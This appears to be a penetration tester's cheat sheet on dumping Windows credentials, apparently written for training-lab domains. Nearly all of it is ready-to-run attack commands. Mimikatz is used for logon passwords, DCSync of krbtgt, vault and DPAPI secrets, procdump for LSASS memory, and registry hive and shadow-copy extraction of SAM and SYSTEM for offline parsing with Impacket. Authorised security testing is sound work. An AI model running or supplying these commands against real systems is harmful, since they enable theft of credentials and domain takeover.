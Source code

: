 ## Dump
- ADFS private key
- DPAI Absuse
	- credential manager
- Clear Text LAPS Password from LDAP
- LSASS
- ntds.dit
  
***
### LSASS protection

Sometimes, LSASS is configured to run as a protected process (PPL). You can query this with PowerShell as follows.

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL" 
```

If this is the case, you can’t just dump or parse LSASS, and you need to disable the protection with something like `mimidrv.sys`. I won’t discuss how to do that here.

### Dumping secrets with Mimikatz

```plaintext
# Dump logon passwords
sekurlsa::logonpasswords

# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since it _writes_ to LSASS 🚩
lsadump::lsa /patch

# Dump only local users
lsadump::sam

# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:dcorp\krbtgt /domain:dollarcorp.moneycorp.local
```

Windows Credential Vault dumping

> I’ve had some issues using this with `Invoke-Mimikatz.ps1`. Try with native Mimikatz if having issues.

```
# Dump windows secrets, such as stored creds for scheduled tasks (elevate first)
vault::list
vault::cred /patch

# Dump windows secrets DPAPI method (less noise and no specific rights reqd yay)
## More here: https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials
## First, get GUID of master key for specific secret
dpapi::cred /in:C:\Users\appadmin\AppData\local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D

## EITHER Grab dpapi keys from LSASS
sekurlsa::dpapi

## OR Grab and cache a specific key
dpapi::masterkey /rpc /in:C:\Users\appadmin\AppData\Roaming\Microsoft\Protect\S-1-5-21-3965405831-1015596948-2589850225-1118\a89b97d2-b520-462d-a924-d57df68c543b

## Mimikatz will cache the master key (check with dpapi::cache)
## Then run the initial dpapi::cred command again to get the juice!
```

### Dumping secrets without Mimikatz

We can also parse system secrets without using Mimikatz on the target system directly.

#### Dumping LSASS

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

```powershell
# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly
.\procdump.exe -r -ma lsass.exe lsass.dmp
```

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to ‘Minidump’ mode to parse the file as follows.

```plaintext
sekurlsa::minidump lsass.dmp
```

After this, we can run Mimikatz commands as usual.

#### Dumping secrets from the registry

We can dump secrets from the registry and parse the files “offline” to get a list of system secrets. 🚩

On the target, we run the following:

```powershell
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save
```

Then on our attacking box we can dump the secrets with Impacket:

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save -history -user-status -pwd-last-set LOCAL > secrets.out
```

> `-user-status` Display whether or not the user is disabled
>  `-history` Dump password history
>   `-pwd-last-set` Shows pwdLastSet attribute for each NTDS.DIT account.

#### Dumping secrets from a Volume Shadow Copy

We can also create a “Volume Shadow Copy” of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

```powershell
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
``` 
***
## Misc
- [RDP Session Hijacking](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
